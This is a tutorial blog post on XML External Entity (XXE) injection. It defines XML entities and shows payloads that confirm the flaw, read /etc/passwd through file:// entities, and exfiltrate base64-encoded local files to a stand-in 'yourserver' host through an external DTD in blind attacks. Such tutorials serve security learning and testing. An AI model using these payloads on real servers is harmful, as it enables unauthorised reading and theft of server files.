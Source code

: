 Hi all,

In this post we will cover these following topics.

What is XXE?
How to confirm XXE?
How Exploit Basic XXE?
How Blind XXE works?
and a alternative of blind XXE payload.

But first let's understand some basic keywords.

**Entity**: Entities *reference* data that act as an abbreviation or can be found at an external location. Syntax:- **&test;**

Most common entites are:-

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.<br>
*Syntax:-* `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by 'SYSTEM'.<br>
*Syntax:-* `<!ENTITY entity_name SYSTEM "entity_value">`

**Parameter Entity**: The purpose of a parameter entity is to enable you to create reusable sections of replacement text. (If not understood, You will understand more clearly in later.)<br>
*Syntax:-* `<!ENTITY % entity "another entity (Internal or External)">`


## What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic.
2. Blind.

Basic one:-

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

**Payload 1**:- 

`<?xml version="1.0"?>`
`<!DOCTYPE root [`
`<!ENTITY test SYSTEM 'http://yourserverip/'>]>`
`<root>&test;</root>`

Now let's understand this. 

1.First we declare the xml Syntax, now, we define DOCTYPE to define the contents of XML body,<br> 
2.After that, we define root element after the DOCTYPE i.e. root, next, we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.<br>
3.After that we define our server's ip because we want to let the target server to send the request to us.

Now when you give that payload to mis-configured XML parser, the mis-configured XML parser will parse the results and it will process our External entity by **requesting to your server.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.

## What if the xml data is not showing to us? (Blind XXE Case)

Okay,

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload which will grep the contents of the local files of the webserver and send the contents to our server. Sound interesting, let's see how this whole theory works and also let's see that if we have some alternatives to do that.

**Payload 2**:- 

`<?xml version="1.0"?>`
`<!DOCTYPE root [`
`<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]>`
`<root>&entity;</root>`

Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`

Lot's of code to understand:-

> we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 
>
> `%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`
>
> When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 
> We are using php filter to get the file contents to bypass any restrictions.
> Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see how all this works.

<video src="/bandicam 2018-11-04 23-35-26-024.mp4" width="320" height="200" controls preload></video>

Cool. 

Now, Have anyone arise a question that why we call the dtd from attacker's server? Why not this below payload works?

**Payload 3**:- 

`<?xml version="1.0"?>`
`<!DOCTYPE root [`
`<!ENTITY % filecontents SYSTEM 'file:///etc/passwd>`
`<!ENTITY test SYSTEM 'http://yourserver/%filecontents;'>]>`
`<root>&test;</root>`

this would be easier than before? Yes it is, but it is not going to work. 

**Actually parameter entity can't be called inside the DTD subset they can be called in the External subset (like we did in Payload no 2. It will be forbidden, hence you will get the forbidden error.**

So that's the reason why we can't run above payload.

That's all guys, I just want to share because I want. :)

Hope you like this read. 

Have a good hacking day.




